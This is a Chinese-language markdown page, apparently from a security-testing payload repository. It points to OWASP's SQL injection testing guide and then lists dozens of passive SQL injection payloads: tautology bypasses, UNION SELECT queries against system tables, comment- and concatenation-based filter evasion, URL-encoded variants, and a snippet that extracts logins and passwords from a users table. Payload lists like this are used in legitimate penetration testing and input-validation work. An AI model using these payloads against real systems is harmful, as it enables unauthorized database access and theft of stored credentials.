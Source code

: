 
SQL注入详情请见: [SQL注入测试](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OWASP-DV-005%29)


SQL注入分为以下两类,依据是暴露数据库信息（被动）还是修改数据库信息（主动）。

* 被动SQL注入
* 主动SQL注入


主动SQL注入语句如果被执行将对底层的数据库造成有害的影响。


#### 被动SQL注入(SQP)

```
 '||(elt(-3+5,bin(15),ord(10),hex(char(45))))
 ||6
 '||'6
 (||6)
 ' OR 1=1--
 OR 1=1
 ' OR '1'='1
 ; OR '1'='1'
 %22+or+isnull%281%2F0%29+%2F*
 %27+OR+%277659%27%3D%277659
 %22+or+isnull%281%2F0%29+%2F*
 %27+--+
 ' or 1=1--
 " or 1=1--
 ' or 1=1 /*
 or 1=1--
 ' or 'a'='a
 " or "a"="a
 ') or ('a'='a
 Admin' OR '
 '%20SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES--
 ) UNION SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES;
 ' having 1=1--
 ' having 1=1--
 ' group by userid having 1=1--
 ' SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = tablename')--
 ' or 1 in (select @@version)--
 ' union all select @@version--
 ' OR 'unusual' = 'unusual'
 ' OR 'something' = 'some'+'thing'
 ' OR 'text' = N'text'
 ' OR 'something' like 'some%'
 ' OR 2 > 1
 ' OR 'text' > 't'
 ' OR 'whatever' in ('whatever')
 ' OR 2 BETWEEN 1 and 3
 ' or username like char(37);
 ' union select * from users where login = char(114,111,111,116);
 ' union select
 Password:*/=1--
 UNI/**/ON SEL/**/ECT
 '; EXECUTE IMMEDIATE 'SEL' || 'ECT US' || 'ER'
 '; EXEC ('SEL' + 'ECT US' + 'ER')
 '/**/OR/**/1/**/=/**/1
 ' or 1/*
 +or+isnull%281%2F0%29+%2F*
 %27+OR+%277659%27%3D%277659
 %22+or+isnull%281%2F0%29+%2F*
 %27+--+&password=
 '; begin declare @var varchar(8000) set @var=':' select @var=@var+'+login+'/'+password+' ' from users where login >
```